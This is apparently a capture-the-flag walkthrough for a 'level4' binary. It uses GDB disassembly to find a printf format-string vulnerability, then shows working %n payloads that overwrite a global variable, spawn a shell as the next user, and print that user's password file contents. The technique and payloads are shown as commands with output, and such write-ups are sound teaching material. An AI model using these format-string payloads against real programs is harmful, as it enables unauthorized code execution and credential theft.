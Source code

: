 # 🚀 Level 4 - Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./level4
coucou
coucou
```
- 🧾 The program waits for input and prints it back.

## 🐞 Start it in GDB
```bash
(gdb-peda)$ pdisas main
...
0x080484ad <+6>:		call   0x8048457 <n>
...
```
- 🔍 main calls a function n.

```bash
(gdb-peda)$ pdisas n
...
0x08048488 <+49>:	call   0x8048444 <p>
...
```
- 🧩 fgets reads user input.
- 📢 Function p prints the input.
- 🔐 When the global variable m equals 0x1025544 (decimal 16930116), system() is called.
```bash
(gdb-peda)$ pdisas p
...
0x08048450 <+12>:	call   0x8048340 <printf@plt>
...
```
- ⚠️ printf is called without a format string, which creates a format string vulnerability.

## 🔍 Check Position of Our Buffer on Stack
```bash
$ python -c 'print("BBBB" + " %x"*15)' | ./level4
BBBB b7ff26b0 bffff694 b7fd0ff4 0 0 bffff658 804848d bffff450 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078
```
- 🔢 Our input "BBBB" (0x42424242) appears at the 12th position.

## 🔑 Confirm Address of m
```bash
$ python -c 'print("\x10\x98\x04\x08" + "%12$x")' | ./level4
8049810
```
We can write the address 0x8049810 of m into the input and leak it with %12$x.

## 💥 Exploit with %n Format Specifier
- Goal: write 16930116 into m.
- %n writes the number of printed bytes to the address passed on the stack.

```bash
$ python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")' | ./level4
```
- 🛠 Padding %16930112d prints that many characters before %12$n writes that count to m.

## ✅ Final Step - Get Shell and Read Password
```bash
$ (python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'; cat -) | ./level4
whoami
level5
cat ~level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
- 🎉 Done!
